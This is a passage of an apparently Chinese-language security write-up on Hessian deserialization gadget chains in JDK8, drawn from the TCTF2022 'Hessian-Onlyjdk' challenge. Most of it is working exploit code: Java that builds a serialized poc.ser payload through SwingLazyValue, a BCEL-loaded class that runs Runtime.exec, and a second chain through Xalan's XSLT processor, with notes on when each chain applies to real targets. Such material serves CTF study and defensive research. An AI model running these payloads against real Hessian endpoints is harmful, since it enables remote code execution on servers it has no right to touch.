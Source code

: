 在TCTF2022中出现了一个叫做Hessian-Onlyjdk的题，这个题的影响程度很高，不仅仅是在CTF更是在Realworld，他提供了一种JDK8原生的hessian gadgets，利用SwingLazyValue可以触发任意类的静态方法。  
EXP

```java
public class HessianSwingLVBCEL {
    public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        String bcelStr = SerializeUtils.makeBcelStr(BcelRCE.class);
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{bcelStr,"s"}}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        SerializeUtils.HessianDeserial(SerializeUtils.HessianTostringSerial(pkcs9Attributes));
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
    }
}
```

```java
package com.javasec.pocs.rce;

import java.io.IOException;

public class BcelRCE {
    public static void _main(String[] argv) throws Exception {
        Runtime.getRuntime().exec("cmd");
    }
    public static void main(String[] args) {

    }
}
```

这里用到了`com.sun.org.apache.bcel.internal.util.JavaWrapper`这个类的`_main`静态方法，在方法内部可以加载BCEL字节码，会加载恶意类的`_main`方法。但是问题是，BCEL打内存马需要全反射的形式调用，Bcel类加载器不会加载springframework下的依赖，会抛出`ClassNotDefinded`的异常，它只能加载jdk包下的原生类，这一点就是一个限制，所以这里假如目标出网可以用这条gadgets，比较方便。

## 3、XSLT

在nacos的raft反序列化里出现过这条链子

```java
public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xalan.internal.xslt.Process", "_main", new Object[]{new String[]{"-XT", "-XSL", "E:\\payload.xslt"}}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
```